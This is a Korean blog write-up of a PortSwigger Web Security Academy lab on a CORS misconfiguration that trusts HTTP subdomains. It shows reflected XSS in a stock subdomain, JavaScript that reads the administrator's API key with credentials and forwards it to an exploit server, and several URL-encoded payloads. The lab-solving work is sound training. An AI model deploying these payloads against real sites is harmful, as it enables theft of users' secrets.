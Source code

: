 ```yaml
---
layout: post
title: "Burp Academy-CORS 취약점: CORS vulnerability with trusted insecure protocols"
categories: [보안취약점, Burp Academy]
tags: [보안취약점, Burp Academy, CORS취약점]
toc: true
---
```


# 개요
- [CORS]({% post_url 2023-06-28-CORS-basic %})에 관련된 취약점이다. 
- CORS 취약점에 대한 설명은 [여기]({% post_url 2023-06-27-burp-academy-cors %}) 
- 문제 주소: : https://portswigger.net/web-security/cors/lab-breaking-https-attack
- 난이도: PRACTITIONER (보통)


# 문제설명
- 서버에는 프로토콜에 관계없이 모든 서브도메인을 허용해주는 CORS 취약점이 있다. 
- 이 취약점을 이용해서 서버 관리자의 API Key를 얻어내는 자바스크립트 코드를 exploit server를 이용해서 서버로 보낸다. 
- 얻어낸 서버 관리자의 API Key를 제출하면 문제가 풀린다. 

```
This website has an insecure CORS configuration in that it trusts all subdomains regardless of the protocol.

To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.

You can log in to your own account using the following credentials: wiener:peter
```

# 풀이 

이번에는 http 통신을 도청해서 내용을 얻어내야 한다. 

## CORS 취약점이 있는 곳 찾기 
이번에도 우선 `GET /accountDetails` 요청을 테스트해본다. 
Origin헤더에는 특정 값(문제서버 도메인) 밖에 허용하지 않는다. 대신 HTTP도 허용해준다. 

![Origin헤더테스트](/images/burp-academy-cors-3-1.png)

HTTP 통신이므로 MITM만 할 수 있다면 요청이나 응답을 변조해서 데이터를 훔칠수도 있을 것 같다. 

그러나 어떻게 MITM을 할 수 있을까? 이거는 모르겠다...힌트를 본다. 

힌트는 다음과 같이 되어 있다. 랩 환경에서 MITM은 불가능하므로 대체 방법을 찾아야 한다고 한다. 이 대처방법은 서브도메인(문제 서버)에 Javascript를 주입하는 것이라고 하는데... XSS가 가능한 포인트가 있다면 Javascript주입은 가능할 것이다. 그런데 이 것과 HTTP 통신을 도청하는 것과 무슨 상관이 있지? 

```
If you could man-in-the-middle attack (MITM) the victim, you could use a MITM attack to hijack a connection to an insecure subdomain, and inject malicious JavaScript to exploit the CORS configuration. Unfortunately in the lab environment, you can't MITM the victim, so you'll need to find an alternative way of injecting JavaScript into the subdomain.
```

## 풀이 방법 생각 
생각해본다 .이번 문제 서버의 CORS 설정은 오리진이 고정되어 있다. 즉, 문제서버 도메인만 허용하기 때문에 문제 서버에서 의도적으로 HTTP 요청을 보내도록 해야한다. 이 때문에 Javascript 인젝션이 필요하다고 생각된다. 

이 Javascript에서 해야하는 일을 생각해보자. 
- API Key를 획득하는 HTTP요청을 보낸다. 
- 이 요청의 응답에 포함되어 있는 API Key를 GET 파라메터로 포함한 요청을 exploit서버로 보낸다. 

다음과 같은 형태가 될 것이다. 

```javascript
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','http://{문제서버서브도메인}.web-security-academy.net/accountDetails',true); // HTTP통신
req.withCredentials = true;
req.send();

function reqListener() {
   location='https://exploit-{exploit서버서브도메인}.exploit-server.net/exploit?key='+this.responseText;
};
```


## Javascript 인젝션(XSS) 가능한 곳 찾기 

https://stock.0a2f00bf046394898574bcc600fa000f.web-security-academy.net/?productId=1%22/%3E%3Cscript%3Ealert(1);%3C/script%3E&storeId=1 에서 찾았다. 

![XSS가능한 곳 찾기](/images/burp-academy-cors-3-2.png)


## 공격 페이로드 만들기 및 테스트 
Burp Decoder를 사용해서 다음 자바스크립트 코드를 URL인코딩한다. 

```js
<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','http://0a2f00bf046394898574bcc600fa000f.web-security-academy.net/accountDetails',true);
req.withCredentials = true;
req.send();

function reqListener() {
   location='https://exploit-0a0f005e04c7943b8573bb22010f0047.exploit-server.net/exploit?key='+this.responseText;
};
</script>
```

URL인코딩하면 다음처럼된다. exploit서버에서 victim이 이 요청을 실행하도록 만들면 된다. 

```
https://stock.0a2f00bf046394898574bcc600fa000f.web-security-academy.net/?productId=1%3c%73%63%72%69%70%74%3e%0a%76%61%72%20%72%65%71%20%3d%20%6e%65%77%20%58%4d%4c%48%74%74%70%52%65%71%75%65%73%74%28%29%3b%0a%72%65%71%2e%6f%6e%6c%6f%61%64%20%3d%20%72%65%71%4c%69%73%74%65%6e%65%72%3b%0a%72%65%71%2e%6f%70%65%6e%28%27%67%65%74%27%2c%27%68%74%74%70%3a%2f%2f%30%61%32%66%30%30%62%66%30%34%36%33%39%34%38%39%38%35%37%34%62%63%63%36%30%30%66%61%30%30%30%66%2e%77%65%62%2d%73%65%63%75%72%69%74%79%2d%61%63%61%64%65%6d%79%2e%6e%65%74%2f%61%63%63%6f%75%6e%74%44%65%74%61%69%6c%73%27%2c%74%72%75%65%29%3b%0a%72%65%71%2e%77%69%74%68%43%72%65%64%65%6e%74%69%61%6c%73%20%3d%20%74%72%75%65%3b%0a%72%65%71%2e%73%65%6e%64%28%29%3b%0a%0a%66%75%6e%63%74%69%6f%6e%20%72%65%71%4c%69%73%74%65%6e%65%72%28%29%20%7b%0a%20%20%20%6c%6f%63%61%74%69%6f%6e%3d%27%68%74%74%70%73%3a%2f%2f%65%78%70%6c%6f%69%74%2d%30%61%30%66%30%30%35%65%30%34%63%37%39%34%33%62%38%35%37%33%62%62%32%32%30%31%30%66%30%30%34%37%2e%65%78%70%6c%6f%69%74%2d%73%65%72%76%65%72%2e%6e%65%74%2f%65%78%70%6c%6f%69%74%3f%6b%65%79%3d%27%2b%74%68%69%73%2e%72%65%73%70%6f%6e%73%65%54%65%78%74%3b%0a%7d%3b%0a%3c%2f%73%63%72%69%70%74%3e&storeId=1
```

일단 이 코드가 제대로 동작하는지 확인해본다. 

브라우저에서 위 코드를 테스트해보면 다음과 같이 HTTPS통신중에 HTTP를 요청했다고 거부된다. 처음부터 HTTP통신이어야 하는 것 같다. 

![테스트1](/images/burp-academy-cors-3-3.png)

위의 URL의 프로토콜부분을 http로 변경해서 다시 테스트해본다. 위의 에러는 없어졌다. 그러나 이번에는 CORS에러가 발생했다. 

```
http://stock.0a2f00bf046394898574bcc600fa000f.web-security-academy.net/?productId=1%3c%73%63%72%69%70%74%3e%0a%76%61%72%20%72%65%71%20%3d%20%6e%65%77%20%58%4d%4c%48%74%74%70%52%65%71%75%65%73%74%28%29%3b%0a%72%65%71%2e%6f%6e%6c%6f%61%64%20%3d%20%72%65%71%4c%69%73%74%65%6e%65%72%3b%0a%72%65%71%2e%6f%70%65%6e%28%27%67%65%74%27%2c%27%68%74%74%70%3a%2f%2f%30%61%32%66%30%30%62%66%30%34%36%33%39%34%38%39%38%35%37%34%62%63%63%36%30%30%66%61%30%30%30%66%2e%77%65%62%2d%73%65%63%75%72%69%74%79%2d%61%63%61%64%65%6d%79%2e%6e%65%74%2f%61%63%63%6f%75%6e%74%44%65%74%61%69%6c%73%27%2c%74%72%75%65%29%3b%0a%72%65%71%2e%77%69%74%68%43%72%65%64%65%6e%74%69%61%6c%73%20%3d%20%74%72%75%65%3b%0a%72%65%71%2e%73%65%6e%64%28%29%3b%0a%0a%66%75%6e%63%74%69%6f%6e%20%72%65%71%4c%69%73%74%65%6e%65%72%28%29%20%7b%0a%20%20%20%6c%6f%63%61%74%69%6f%6e%3d%27%68%74%74%70%73%3a%2f%2f%65%78%70%6c%6f%69%74%2d%30%61%30%66%30%30%35%65%30%34%63%37%39%34%33%62%38%35%37%33%62%62%32%32%30%31%30%66%30%30%34%37%2e%65%78%70%6c%6f%69%74%2d%73%65%72%76%65%72%2e%6e%65%74%2f%65%78%70%6c%6f%69%74%3f%6b%65%79%3d%27%2b%74%68%69%73%2e%72%65%73%70%6f%6e%73%65%54%65%78%74%3b%0a%7d%3b%0a%3c%2f%73%63%72%69%70%74%3e&storeId=1
```

![테스트2](/images/burp-academy-cors-3-4.png)

에러 메세지는 다음과 같다. 서버측에서 Access-Control-Allow-Origin헤더를 회신해주지 않는 것 같다. 

```
Access to XMLHttpRequest at 'http://0a2f00bf046394898574bcc600fa000f.web-security-academy.net/accountDetails' from origin 'http://stock.0a2f00bf046394898574bcc600fa000f.web-security-academy.net' has been blocked by CORS policy: No 'Access-Control-Allow-Origin' header is present on the requested resource.
```

GET /accountDetails HTTP요청을 확인해보면 다음과 같이 Origin 헤더가 설정되어 있는 것을 확인할 수 있었다. 

![CORS에러확인](/images/burp-academy-cors-3-5.png)

동일한 값으로 Burp Repeater에서 테스트해보면 다음과 같이 Access-Control-Allow-Origin헤더가 잘 회신되는 것을 확인할 수 있었다. 두 요청 사이에 뭐가 다른걸까? 

![Burp에서 CORS테스트](/images/burp-academy-cors-3-6.png)

브라우저에서 발생하는 통신을 Burp Proxy로 캡쳐해보니 원인을 알았다. GET /accountDetails 요청이 HTTP여서 발생하는 문제였다. 

![Burp에서 CORS테스트2](/images/burp-academy-cors-3-7.png)

페이로드의 GET요청 프로토콜부분을 다음과 같이 https로 변경한다. 그리고 URL인코딩해서 다시 테스트해본다. 

```js
<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://0a2f00bf046394898574bcc600fa000f.web-security-academy.net/accountDetails',true);
req.withCredentials = true;
req.send();

function reqListener() {
   location='https://exploit-0a0f005e04c7943b8573bb22010f0047.exploit-server.net/exploit?key='+this.responseText;
};
</script>
```

이번에는 되는 것을 확인했다. 

```
http://stock.0a2f00bf046394898574bcc600fa000f.web-security-academy.net/?productId=1%3c%73%63%72%69%70%74%3e%0a%76%61%72%20%72%65%71%20%3d%20%6e%65%77%20%58%4d%4c%48%74%74%70%52%65%71%75%65%73%74%28%29%3b%0a%72%65%71%2e%6f%6e%6c%6f%61%64%20%3d%20%72%65%71%4c%69%73%74%65%6e%65%72%3b%0a%72%65%71%2e%6f%70%65%6e%28%27%67%65%74%27%2c%27%68%74%74%70%73%3a%2f%2f%30%61%32%66%30%30%62%66%30%34%36%33%39%34%38%39%38%35%37%34%62%63%63%36%30%30%66%61%30%30%30%66%2e%77%65%62%2d%73%65%63%75%72%69%74%79%2d%61%63%61%64%65%6d%79%2e%6e%65%74%2f%61%63%63%6f%75%6e%74%44%65%74%61%69%6c%73%27%2c%74%72%75%65%29%3b%0a%72%65%71%2e%77%69%74%68%43%72%65%64%65%6e%74%69%61%6c%73%20%3d%20%74%72%75%65%3b%0a%72%65%71%2e%73%65%6e%64%28%29%3b%0a%0a%66%75%6e%63%74%69%6f%6e%20%72%65%71%4c%69%73%74%65%6e%65%72%28%29%20%7b%0a%20%20%20%6c%6f%63%61%74%69%6f%6e%3d%27%68%74%74%70%73%3a%2f%2f%65%78%70%6c%6f%69%74%2d%30%61%30%66%30%30%35%65%30%34%63%37%39%34%33%62%38%35%37%33%62%62%32%32%30%31%30%66%30%30%34%37%2e%65%78%70%6c%6f%69%74%2d%73%65%72%76%65%72%2e%6e%65%74%2f%65%78%70%6c%6f%69%74%3f%6b%65%79%3d%27%2b%74%68%69%73%2e%72%65%73%70%6f%6e%73%65%54%65%78%74%3b%0a%7d%3b%0a%3c%2f%73%63%72%69%70%74%3e&storeId=1
```

## exploit 서버 구성 및 공격 실행 

exploit서버의 Body부분을 다음과 같이 구성한다. 

```
<script>
location=http://stock.0a2f00bf046394898574bcc600fa000f.web-security-academy.net/?productId=1%3c%73%63%72%69%70%74%3e%0a%76%61%72%20%72%65%71%20%3d%20%6e%65%77%20%58%4d%4c%48%74%74%70%52%65%71%75%65%73%74%28%29%3b%0a%72%65%71%2e%6f%6e%6c%6f%61%64%20%3d%20%72%65%71%4c%69%73%74%65%6e%65%72%3b%0a%72%65%71%2e%6f%70%65%6e%28%27%67%65%74%27%2c%27%68%74%74%70%73%3a%2f%2f%30%61%32%66%30%30%62%66%30%34%36%33%39%34%38%39%38%35%37%34%62%63%63%36%30%30%66%61%30%30%30%66%2e%77%65%62%2d%73%65%63%75%72%69%74%79%2d%61%63%61%64%65%6d%79%2e%6e%65%74%2f%61%63%63%6f%75%6e%74%44%65%74%61%69%6c%73%27%2c%74%72%75%65%29%3b%0a%72%65%71%2e%77%69%74%68%43%72%65%64%65%6e%74%69%61%6c%73%20%3d%20%74%72%75%65%3b%0a%72%65%71%2e%73%65%6e%64%28%29%3b%0a%0a%66%75%6e%63%74%69%6f%6e%20%72%65%71%4c%69%73%74%65%6e%65%72%28%29%20%7b%0a%20%20%20%6c%6f%63%61%74%69%6f%6e%3d%27%68%74%74%70%73%3a%2f%2f%65%78%70%6c%6f%69%74%2d%30%61%30%66%30%30%35%65%30%34%63%37%39%34%33%62%38%35%37%33%62%62%32%32%30%31%30%66%30%30%34%37%2e%65%78%70%6c%6f%69%74%2d%73%65%72%76%65%72%2e%6e%65%74%2f%65%78%70%6c%6f%69%74%3f%6b%65%79%3d%27%2b%74%68%69%73%2e%72%65%73%70%6f%6e%73%65%54%65%78%74%3b%0a%7d%3b%0a%3c%2f%73%63%72%69%70%74%3e&storeId=1
</script>
```

그리고 저장한 후 Deliver To Victim버튼을 누른다. 그리고 접근 로그를 확인해보면 다음과 같이 관리자의 접근 로그가 보인다! 

![exploit서버 접근 로그](/images/burp-academy-cors-3-8.png)

관리자의 접근 로그에서 API Key부분만 얻어와서 문제 서버에 제출하면 문제가 풀린다. 


![풀이 성공](/images/burp-academy-cors-3-success.png)
